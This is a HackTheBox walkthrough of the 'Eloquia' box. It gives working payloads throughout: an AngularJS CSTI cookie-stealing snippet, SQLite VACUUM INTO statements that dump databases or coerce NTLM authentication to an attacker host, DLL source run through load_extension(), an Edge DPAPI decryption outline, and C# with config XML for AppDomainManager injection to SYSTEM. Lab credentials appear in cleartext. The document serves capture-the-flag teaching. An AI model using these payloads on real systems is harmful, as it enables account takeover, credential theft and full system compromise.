






# Eloquia — HackTheBox Insane Walkthrough

Eloquia is an Insane-rated Windows box built around a Django blogging platform and a companion Google-parody OAuth provider. The kill chain is long and surgical: steal an admin session via AngularJS CSTI, exploit SQLite's `VACUUM INTO` and `load_extension()` for code execution, recover credentials from Edge's encrypted storage, then ride a writable `.NET` service config to SYSTEM.

> **Prerequisites:** This walkthrough assumes familiarity with AngularJS Client-Side Template Injection (CSTI), Django admin internals, SQLite's advanced pragma/extension system, OAuth 2.0 authorization code flows, Windows DPAPI credential decryption, and .NET AppDomainManager hijacking. If any of those are new to you, this box will be a rough introduction — consider working through some Hard-rated boxes first.

---

## Overview

Two open ports. One hostname hint from a redirect. Enormous attack surface hidden inside a polished web app. The box teaches you that "Insane" difficulty isn't about a single clever trick — it's about six or seven medium-difficulty steps that each depend on the one before. Miss any link in the chain and you're stuck.

---

<div id="protected-marker"></div>

## Reconnaissance

### Port Scan

Starting with a standard nmap scan to see what we're working with:



Two ports: IIS on 80 and WinRM on 5985. The redirect gives us our first hostname. Looking at the redirect target and running a quick content discovery pass, I spotted a second vhost referenced in the OAuth flow: `qooqle.htb`. Both go in `/etc/hosts`:

```bash
echo "<TARGET> eloquia.htb qooqle.htb" >> /etc/hosts
```

### Mapping the Application

`eloquia.htb` is a Django blogging platform running behind IIS 10.0 with ARR/3.0 acting as a reverse proxy. The stack fingerprints are visible in response headers and confirmed by the admin panel theme (Grappelli). SQLite is the database (path `db.sqlite3` relative to the web root). The frontend uses **AngularJS 1.8.2** loaded from `/static/assets/js/angular-1.8.2.min.js` — a detail that's going to matter shortly.

Key endpoints worth noting from manual browsing:

- `/accounts/register/` and `/accounts/login/` — standard auth
- `/accounts/upload_profile_image/` — multipart image upload, normalises filename to `<user_id>.<detected_format>`
- `/article/comment/add/<id>/` and `/article/comment/get/<id>/` — comment submission/retrieval via AngularJS `$http`
- `/article/report/<id>/` — reports an article; an admin bot visits it
- `/accounts/admin/` — Django admin panel, admin only

The `qooqle.htb` vhost is a Google-parody OAuth2 provider (django-oauth-toolkit). It handles the OAuth flow with `client_id=riQBUyAa4UZT3Y1z1HUf3LY7Idyu8zgWaBj4zHIi` and a hard-coded `redirect_uri` pointing back to `eloquia.htb`. Redirect URI validation is enforced — arbitrary URIs return 400.

The article comment system renders HTML using `$sce.trustAsHtml()`. Combined with AngularJS 1.8.2, that's a CSTI waiting to be triggered.

---

## Foothold

### Step 1: CSTI → Admin Session Cookie

The comment content is rendered through `$sce.trustAsHtml()` without sanitisation, and the article content itself is controlled by the author. AngularJS expressions inside `{{...}}` evaluate in the page's Angular scope. More usefully, Angular event directives like `ng-focus` execute arbitrary scope method calls — including `submitForm()`, which is already wired up to POST a comment.

The `sessionid` cookie on `eloquia.htb` has no `HttpOnly` flag, so `document.cookie` is readable from JavaScript. The attack is: craft an article with an auto-focusing element that fires `ng-focus`, reads the cookie via `$event.view.document.cookie`, puts it in `formData.comment`, and calls `submitForm()` to POST it as a comment on the article. Then report the article and wait for the admin bot.

The payload in the article body:

```html
<p ng-focus="formData.comment=$event.view.document.cookie;submitForm()" autofocus tabindex="0">Loading article content...</p>
```

The `autofocus tabindex="0"` combination reliably fires the `ng-focus` event in HeadlessChrome (tested — the bot runs Chrome 142). About 100 seconds after reporting the article, the bot's session appears as a new comment.



Profile image `1.PNG` on the admin account confirms we have the admin user's session.

### Step 2: Django Admin Enumeration

With the admin cookie in Burp, I navigated to `/accounts/admin/`. The Grappelli-themed admin panel exposed several interesting model sets — but the two that mattered most were **Custom users** and **SQL Explorer**.

The user list revealed seven accounts with PBKDF2-SHA256 hashes (720,000 iterations — effectively uncrackable in realistic time) plus the `qooqle_connected_account` field on each user. Admin's connected account was `m.barker@qmail.htb`.

SQL Explorer was the bigger prize. It's a configured query interface with a pre-existing database connection.

### Step 3: SQLite VACUUM INTO — Dumping the Database

SQL Explorer enforces a keyword blacklist: `INSERT`, `CREATE`, `UPDATE`, `DELETE`, `DROP`, and the rest of the usual suspects. But `VACUUM` isn't on the list.

SQLite's `VACUUM INTO '<path>'` creates a complete copy of the current database at the specified path. The IIS static file directory is world-readable, and `.css` files are served with a valid MIME type. Combining those two facts:

```sql
VACUUM INTO 'static/assets/css/dump.css'
```

One caveat: the default connection in SQL Explorer uses the `django_connection` engine, which wraps queries in `transaction.atomic()`. `VACUUM` cannot run inside a transaction — it returns an error. The fix was to create a new connection in the SQL Explorer admin UI using engine `django.db.backends.sqlite3` pointed at the same `db.sqlite3` file. This creates an unregistered DatabaseWrapper that runs in autocommit mode, bypassing the transaction wrapper.

After that change, the VACUUM ran cleanly and the database was downloadable:

```bash
curl http://eloquia.htb/static/assets/css/dump.css -o /tmp/eloquia_db.sqlite3
file /tmp/eloquia_db.sqlite3
# SQLite format 3  -- confirmed
```

The database is 638,976 bytes and contains 16 tables. No plaintext passwords, but it confirmed the presence of a pre-configured MSSQL connection (`Trusted_Connection=yes`, internal only) and — crucially — showed that `EXPLORER_CONNECTIONS` had a second database path configured: `../qooqle/db.sqlite3`.

### Step 4: VACUUM INTO UNC → NTLMv2 Capture

`VACUUM INTO` also accepts UNC paths. With Responder running on my attack host:

```sql
VACUUM INTO '\\<VPN_IP>\share\loot'
```

The Django process (running as the `web` service account) tried to authenticate to our SMB listener, handing over an NTLMv2 challenge-response.



I threw this at hashcat (mode 5600) with rockyou + best64 — 1.1 billion candidates exhausted in three seconds on an RTX 4090 with no result. The password for `web` isn't in standard wordlists. This is a dead end for now, but the account identity (`ELOQUIA\web`) is confirmed.

While Responder was running it also captured a cleartext MSSQL authentication attempt: `sqlmgmt:bIhBbzMMnB82yx`. That credential didn't work against WinRM with any of the known usernames, and port 1433 isn't externally accessible. Filed for later.

### Step 5: Qooqle Database Dump

Using the same VACUUM technique with a relative path pointing at the sibling Qooqle application:

```sql
VACUUM INTO 'static/assets/css/qdb0.css'
```

(This was run via a connection configured to `../qooqle/db.sqlite3`.)

The Qooqle database revealed that the OAuth application is configured as **public** — no `client_secret` required for the token exchange. It also showed the identity format that Eloquia uses to match OAuth logins back to local accounts: `<username>@qmail.htb`. The admin's connected account on Eloquia was `m.barker@qmail.htb`, meaning the Qooqle user with username `m.barker` would log straight in as Eloquia admin.

### Step 6: OAuth Account Takeover via Admin Field Edit

Here's the logical flaw. The `qooqle_connected_account` field on the Django admin user change form is a plain `CharField` — not a read-only display, not an auto-populated OAuth field. It's a text box you can type in.

I registered a new account on `qooqle.htb` (username: `attkq7`, which maps to identity `attkq7@qmail.htb`), then in Django admin I edited the admin user's `qooqle_connected_account` field from `m.barker@qmail.htb` to `attkq7@qmail.htb`. Now the OAuth flow routes our Qooqle identity directly to the admin account:

1. `GET /accounts/oauth2/qooqle/authorize/` → redirect to Qooqle
2. Login as `attkq7` on Qooqle, approve the authorization request
3. Callback: `GET /accounts/oauth2/qooqle/callback/?code=<code>` → Eloquia resolves our identity and logs us in as admin

This bypasses the 15-second auth code expiry completely — we're not doing a CSRF race, we're doing a direct field edit through a panel we already control. The OAuth state parameter is also absent, but that's secondary here.

### Step 7: DLL Upload via Article Admin Banner Field

With a confirmed admin session, I turned to file upload. There are three upload paths in this application and they each behave differently:

- `/accounts/upload_profile_image/` — validates via Pillow and runs a custom "malicious behaviour" check. DLLs are rejected outright.
- The **user image** field in the admin panel — validates via Django's `ImageField` (Pillow), extension whitelist. Still rejected.
- The **article banner** field in the admin panel — uses a plain `FileField`. No image validation. No extension check. Filename preserved as-is.

I uploaded a raw PE DLL through the article admin form at `/accounts/admin/Eloquia/article/<id>/change/`. It landed at `static/assets/images/blog/evil.dll` and IIS served it back cleanly.

### Step 8: RCE via SQLite load_extension()

Testing `load_extension()` in SQL Explorer:

```sql
SELECT load_extension('nonexistent');
```

The error returned was "The specified module could not be found" — an OS-level `LoadLibrary` failure, *not* SQLite's "not authorized" error. That means `enable_load_extension(True)` has been called somewhere in the Django app's SQLite setup. `load_extension` isn't on the SQL Explorer blacklist because it's a function name, not a keyword.

Crucially, Windows calls `DllMain` during `LoadLibrary` *before* checking for the sqlite3 entry point. If our DLL has a `DllMain` that executes a command, it fires even if the extension init function is absent or returns an error.

Cross-compiled the DLL on my attack host:

```c
#include <windows.h>
__declspec(dllexport) int sqlite3_extension_init() { return 0; }
BOOL WINAPI DllMain(HINSTANCE h, DWORD r, LPVOID l) {
    if (r == DLL_PROCESS_ATTACH) {
        system("cmd /c whoami > static\\assets\\images\\blog\\out.txt 2>&1");
    }
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll shell.c -Wl,--subsystem,windows
```

Uploaded via the article admin form, then triggered:

```sql
SELECT load_extension('static/assets/images/blog/evil.dll')
```



RCE as `eloquia\web`. From here I uploaded a Python script the same way (article banner field, filename preserved) to handle the next stage.

### Step 9: Edge DPAPI Credential Decryption

The `web` service account runs the IIS process. Checking the machine's user profiles, there's an Edge browser profile with a `Login Data` SQLite database. Edge (Chromium v10+) encrypts stored passwords with AES-GCM, keyed with a master key that's itself DPAPI-protected in the `Local State` file.

`CryptUnprotectData` only works for the user whose DPAPI master key encrypted the data — but since we *are* that user (`web`), we can decrypt it directly. I uploaded a Python script to handle this via `ctypes`:

1. Read and base64-decode the encrypted key from `Local State`
2. Strip the `DPAPI` prefix and call `CryptUnprotectData`
3. Open `Login Data`, query the `logins` table, decrypt each `password_value` with AES-GCM using the recovered key

The decrypted credentials:



```bash
evil-winrm -i <TARGET> -u Olivia.KAT -p 'S3cureP@sswdIGu3ss'
# *Evil-WinRM* PS C:\Users\Olivia.KAT\Documents>
```

User flag: [redacted]

---

## Privilege Escalation

### AppDomainManager Injection via Writable .exe.config

Running as `Olivia.KAT`, I started enumerating services. There's a custom .NET service called `Failure2Ban` — a prototype intrusion prevention system that reads `C:\Web\Qooqle\log.csv` every 30 seconds, counts failed logins, and blocks IPs via Windows Firewall. It runs as `NT AUTHORITY\SYSTEM`.

Checking the ACLs on the service binary directory:

```powershell
icacls "C:\Program Files\Qooqle IPS Software\Failure2Ban - Prototype\Failure2Ban\bin\Debug\"
```



`Olivia.KAT` has read/execute and write on the entire Debug directory — including `Failure2Ban.exe` and `Failure2Ban.exe.config`.

I tried the obvious approaches first. DLL sideloading (`version.dll` dropped in the same directory) does nothing for a vanilla .NET service — the CLR doesn't load system DLLs the way a native process does. Binary replacement is a non-starter because `Restart-Service` completes the stop→start transition in sub-millisecond time. Direct admin access via WinRM hits UAC token filtering — local admin accounts that aren't RID-500 get a "deny only" restricted token.

The correct approach is **.NET AppDomainManager injection**. In .NET 4.x, the runtime reads the application's `.exe.config` at startup. If `<appDomainManagerAssembly>` and `<appDomainManagerType>` are set, the CLR instantiates that class and calls `InitializeNewDomain()` *before* the application's `Main()` method. The config file is a plain text XML file and is **not held open** (locked) by the running service — only read at startup.

There's a scheduled task (`FW-Cleaner.ps1`) that restarts the Failure2Ban service approximately every 10 minutes to apply firewall rule cleanups. That's our trigger.

Compiled a C# AppDomainManager on-target using `csc.exe` (available at `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\`):

```csharp
using System;
using System.Diagnostics;

namespace EvilDomainManager {
    public class EvilManager : AppDomainManager {
        public override void InitializeNewDomain(AppDomainSetup info) {
            base.InitializeNewDomain(info);
            Process.Start("cmd.exe", "/c type C:\\Users\\Administrator\\Desktop\\root.txt > C:\\Web\\Eloquia\\static\\assets\\images\\blog\\root.txt");
        }
    }
}
```

Placed the compiled `EvilManager3.dll` in the Debug directory (Olivia has write there), then overwrote `Failure2Ban.exe.config` to reference it:

```xml
<configuration>
  <runtime>
    <appDomainManagerAssembly value="EvilManager3, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null" />
    <appDomainManagerType value="EvilDomainManager.EvilManager" />
  </runtime>
</configuration>
```

Waited roughly 10 minutes for `FW-Cleaner.ps1` to cycle. On service restart, the CLR loaded our AppDomainManager as SYSTEM, executed the command, and wrote the root flag to the web-accessible static directory.

Root flag: [redacted]

---

## Kill Chain Summary

1. **AngularJS CSTI → Admin cookie** — `ng-focus` + `autofocus` in article content exfiltrates admin `document.cookie` via the comment POST mechanism
2. **VACUUM INTO → DB dump** — SQLite `VACUUM INTO 'static/...'` bypasses SQL blacklist, dumps the full Django database as a static file
3. **VACUUM INTO UNC → NTLMv2** — same primitive coerces NTLM auth from the `web` service account; Responder captures the hash
4. **OAuth logical flaw** — editable `qooqle_connected_account` CharField in Django admin lets us bind our Qooqle identity to the admin account, gaining persistent admin login
5. **Article banner upload → DLL delivery** — unvalidated `FileField` in the article admin form accepts raw PE DLLs, preserving the filename
6. **SQLite `load_extension()` → RCE** — enabled at runtime, not on the blacklist; `DllMain` fires on `LoadLibrary` before the sqlite3 entry point is checked
7. **Edge DPAPI** — `CryptUnprotectData` as the owning user decrypts Edge's AES-GCM master key → plaintext `Olivia.KAT` credentials → WinRM
8. **AppDomainManager injection → SYSTEM** — writable `.exe.config` with `<appDomainManagerAssembly>` runs custom .NET code before `Main()` on service restart

---

## Lessons Learned

**AngularJS / CSTI**

The `ng-focus` + `autofocus tabindex="0"` combination is a reliable headless-Chrome trigger. It fires without user interaction. If `sessionid` lacks `HttpOnly` and an admin bot visits user-controlled content, cookie exfiltration is essentially trivial — as we saw when we abused a similar XSS vector in [Browsed](/writeups/retired/browsed/).

**Django Admin**

Never assume all upload fields in the same admin panel have the same validation. The user `ImageField` used Pillow; the article `FileField` used nothing. Each endpoint needs individual testing. Similarly, don't assume that fields displaying OAuth identity data are read-only — check the form source.

**SQLite as an Attack Surface**

- `VACUUM INTO` is not a DML statement — it bypasses keyword blacklists that block `INSERT`/`CREATE`/`UPDATE`. It also accepts UNC paths, making it a NTLM coercion primitive (similar to the NTLM coercion chains demonstrated in [Archetype](/writeups/starting-point/archetype/)).
- `load_extension()` is a function, not a keyword, so keyword-based blacklists miss it entirely.
- `LoadLibrary` executes `DllMain` before validating the sqlite3 extension entry point — any DLL's constructor code runs regardless of whether it exports `sqlite3_extension_init`.
- The `django_connection` engine wraps queries in `transaction.atomic()`. `VACUUM` cannot run inside a transaction. Fix: create a parallel `django.db.backends.sqlite3` connection that gets its own unregistered DatabaseWrapper.

**Windows Credential Storage**

Edge/Chromium v10+ passwords are AES-GCM encrypted with a DPAPI-wrapped master key stored in `Local State`. `CryptUnprotectData` via Python `ctypes` decrypts the master key when called as the owning user. The entire operation is scriptable without any third-party binaries.

**AppDomainManager Injection (.NET 4.x)**

This is an underappreciated privilege escalation primitive. The `.exe.config` file is:
- A plain XML text file (trivially writable when it exists)
- Not locked by the running process (only read at startup)
- Processed by the CLR before `Main()` — no code path in the application can prevent it

No strong-name signing is required for locally-loaded assemblies. `csc.exe` in `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\` compiles C# on-target, eliminating cross-compilation headaches. The technique is worth internalising: any .NET service where you have write on the config file but not the binary (or where the binary replacement window is too small) is potentially exploitable this way.

**Dead Ends Worth Noting**

- SMB DLL delivery on Windows Server 2019: guest sessions are blocked at the OS level, and without the client's NT hash you cannot satisfy SMB2 signing requirements. Don't waste time patching impacket session flags.
- WebDAV (`\\IP@PORT\...`) requires the WebClient service to be running. It isn't here.
- PIL/PE polyglots are impossible — all common image format magic bytes conflict with `MZ` at offset 0. Appending shellcode after a valid JPEG header results in re-encoding that strips the payload.
- UAC token filtering applies to local administrator group members who aren't RID-500. Gaining local admin via WinRM doesn't give you a high-integrity token. Aim for SYSTEM-level execution instead.
